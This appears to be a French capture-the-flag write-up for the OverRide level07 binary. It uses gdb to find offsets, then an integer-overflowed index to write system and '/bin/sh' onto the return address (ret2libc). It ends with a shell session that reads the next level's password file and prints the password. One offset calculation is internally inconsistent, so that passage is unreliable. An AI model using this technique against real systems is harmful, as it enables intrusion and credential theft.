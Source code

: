 # level07

Ici l'idée est d'overflow le buffer du main pour stocker un appel à system, vu qu'on ne peut stocker que des int, il faut stocker les adresses sous forme d'int (todo expliquer comment on a fait ça)

En regardant le code décompilé par reko, on comprend que le parametre de `read_number` est l'array dans laquelle nos nombre sont stockés, on doit donc trouver l'offset entre l'adresse de ce buffer et `eip`
```C
word32 read_number(uint32 dwArg04[])
{
    printf(" Index: ");
    Eq_118 eax_14 = get_unum();
    printf(" Number at data[%u] is %u\n", eax_14, dwArg04[eax_14]);
    return 0x00;
}
```

on met donc un breakpoint sur l'appel a `read_number`

```
=> 0x0804892b <+520>:   call   0x80486d7 <read_number>
```

On voit que son paramètre est placé sur `eax` juste avant l'appel
```   
0x08048928 <+517>:   mov    %eax,(%esp)
``` 
on récupere donc l'adresse de `eax`
```(gdb) x $eax
0xffffd544:     0x00000000
```

puis on recupere l'adresse de `eip` avec la commande `info frame`
```(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
  ```

on a donc l'adresse du buffer: `0xffffd544`
et l'adresse de `eip`: `0xffffd70c`

system: 0xf7e6aed0 = 4159090384
/bin/sh: 0xf7f897ec = 4160264172

`0xffffd70c` - `0xffffd520` = `0x1EC`, donc `456` en décimal.
Vu que notre buffer contient des `uint`, on divise par `4` (taille d'un uint) et on obtient l'offset:
`456` / `4` = `114`

Le problème est que `114` % `3` = `0`, on ne peut donc pas stocker de nombre directement à cet index.
Pour contourner ce problème, j'avais essayé avec un underflow et ça n'avais pas marché, j'ai rééssayé avec un overflow et va savoir pourquoi cette fois ça marche

On va donc mettre notre appel à `system` à l'index `114` en utilisant un overflow avec le nombre `1073741938`, et l'argument `/bin/sh` à l'index `116` (l'index `115` contenant la return address de system si on suit la logique du [tuto](<https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc>), mais on s'en fout apparemment, j'ai essayé de mettre plusieurs trucs différent ça change rien)

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$```

